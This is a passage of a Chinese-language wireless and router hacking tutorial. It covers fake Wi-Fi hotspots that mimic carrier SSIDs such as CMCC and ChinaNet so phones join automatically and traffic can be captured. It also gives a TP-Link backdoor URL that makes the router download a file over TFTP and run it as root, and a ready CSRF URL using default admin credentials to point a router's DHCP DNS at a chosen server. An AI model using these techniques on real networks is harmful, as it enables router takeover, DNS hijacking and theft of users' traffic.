 0x02 WIFI钓鱼
===========

* * *

被动式攻击
-----

* * *

建立虚假wifi热点,等候别人的连接，安装tcpdump等工具进行抓包窃取数据。

主动式攻击
-----

* * *

利用智能手机 Wi-Fi 广播 协议的缺陷 / 自动接入设计进行攻击。

手机连接过WIFI热点信息之后会保存在手机里，每次进入无线覆盖范围就会自动接入。

公开WIFI热点

```
 中国移动热点：CMCC、CMCC-EDU 等

 中国联通热点：ChinaUnicom 等

 中国电信热点：ChinaNet、ChinaTelecom 等

```

无线设备为了加快连接速度，会对外广播过它连接过什么无线，ssid是多少。如果我截获到了这个广播，我自然能知道你连过什么无线，把这个无线伪造出来

建立相同SSID 切没有密码的ap热点，手机会主动连接手机里已连接过的AP热点，连接的时候只验证SSID是否相同，当不存在密码的时候，不用去验证，会主动连接。(应该是安卓4.2以下版本可以)。

国产手机自带的Wlan服务(删都删不掉)

将运营商的 Wi-Fi 热点内置到你的手机中，更有甚者一些手机中这几个 Wi-Fi 你都删不掉，碰到了就连上，这样的情况下 我们随意建立一个类似于CMCC 等热点就可以进行信息窃取。

0x03 设备攻防
=========

* * *

TP-link后门

TP-LINK的某些型号的路由器存在一个后门功能，通过访问某个无需授权认证的特定页面，路由器会自动从攻击者控制的TFTP服务器上下载程序并执行。攻击者利用这个漏洞可以在路由器上以root身份执行任意命令，从而可完全控制路由器。

http://192.168.0.1/userRpmNatDebugRpm26525557/start_art.html ” ，路由器会从发起请求的机器通过tftp下载一个nart.out文件，并以root权限执行该文件。

CSRF攻击

```
 IE不支持Http Authentication  使用此方法在IE下攻击是无效的 完美兼容FF chrome。

http://admin:admin@192.168.1.1/userRpm/LanDhcpServerRpm.htm?dhcpserver=1&ip1=      192.168.1.100&ip2=192.168.1.199&Lease=120&gateway=0.0.0.0&domain=&dnsserver=&dnsserver=54.248.102.5&dnsserver2=8.8.8.8&Save=%25B1%25A3+%25B4%25E6

```
